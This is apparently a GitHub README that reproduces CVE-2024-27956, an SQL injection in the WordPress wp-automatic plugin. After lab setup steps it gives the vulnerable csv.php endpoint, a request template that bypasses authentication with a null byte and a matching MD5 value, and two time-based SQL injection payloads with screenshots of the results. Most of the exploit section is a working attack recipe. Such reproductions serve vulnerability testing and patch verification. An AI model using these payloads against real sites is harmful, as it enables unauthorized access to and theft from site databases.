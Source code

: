 
# CVE-2024-27956
Note

Build wordpress: docker-compose -f stack.yml up

Install plugin:
1. WordPress dashboard, choose Plugins > Add New

2. Click Upload Plugin

![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/39c596dd-bb5c-457f-87e8-b811a1cd0f12)

3. Choose File -> wp-automatic.zip ->  Install Now

![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/13880686-b083-458b-975d-2cab35c11fc0)

4. After the installation is complete, click Activate Plugin

![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/ecfc78d1-7a43-4ca1-88a0-d6e9db875e60)

Exploit

```<HOST>/wp-content/plugins/wp-automatic/inc/csv.php```

```q={{query}}&auth=%00&integ={{md5query}}```
```
q=SELECT+IF(1=1,sleep(5),sleep(0))&auth=%00&integ=93cf9aa11e746596d6f31765a7222c9f
```
![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/f480537c-5961-4f15-9671-0cc4bf4afd8a)
```
q=SELECT+IF(1=2,sleep(5),sleep(0))&auth=%00&integ=4b1f4024af81df56c3b00679b9b52183
```
![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/7311aa48-9c2b-43a9-a858-6488badff071)
